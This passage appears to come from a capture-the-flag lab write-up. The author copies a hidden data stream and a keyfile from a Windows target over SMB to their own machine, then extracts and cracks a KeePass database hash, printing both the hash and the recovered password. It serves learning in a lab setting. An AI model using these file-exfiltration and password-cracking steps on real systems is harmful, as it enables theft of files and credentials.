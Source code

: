 Because the box only has powershell version 2, I can't use the `-stream` flag to extract the ADS. But I found by pure luck that copying the file over SMB will automatically extract the data stream and create two files on my VM:

```
C:\Users\Administrator\Desktop>attrib -h root.txt

C:\Users\Administrator\Desktop>copy root.txt \\10.10.14.23\share
        1 file(s) copied.

[...]

-rwxr-xr-x  1 root root   1519 Dec 31  1969 root.txt
-rwxr-xr-x  1 root root   7294 Oct  6 10:33 root.txt:Zone.Identifier
```

I also copied the keyfile `admin.png`, then renamed `root.txt:Zone.Identifier` file to a .kdbx extension:

```
C:\Users\Administrator\Desktop>copy ..\pictures\admin.png \\10.10.14.23\share
copy ..\pictures\admin.png \\10.10.14.23\share
        1 file(s) copied.
```

```        
# file root.kdbx 
root.kdbx: Keepass password database 2.x KDBX
```

When I tried to use keepass2john it didn't work and just aborted without extracting the hash:

```
# keepass2john -k admin.png root.kdbx
admin.png
Aborted
```

Keepass uses the sha256 hash of the keyfile mixed with the password to produce the hash. In this case though the keyfile results in a hash that starts with a null byte so that seems to create a problem with keepass2john:

```
# sha256sum admin.png 
0063c12d1bf2ac03fb677e1915d1e96e3ab2cb7e381a186e58e8a06c5a296f39  admin.png
```

The fix was to just upgrade John to the latest version and I was able to get the hash after:

```
# keepass2john -k admin.png root.kdbx 
root:$keepass$*2*1*0*ea5626a6904620cad648168ef3f1968766f0b5f527c9a8028c1c1b03f2490449*cb3114b5089ffddbb3d607e490176e5e8da3022fc899fad5f317f1e4ebf4c268*a0b68d67dca93aee8f9804c28dac5995*afd02b46e630ff764adb50b7a2aae99d8961b1ab4676aff41c21dca19550c9ac*43c6588d17bceedbd00ed20d5ea310b82170252e29331671cc8aea3edd094ef6*1*64*0063c12d1bf2ac03fb677e1915d1e96e3ab2cb7e381a186e58e8a06c5a296f39
```

Then it didn't take long to crack the password: `darkness`
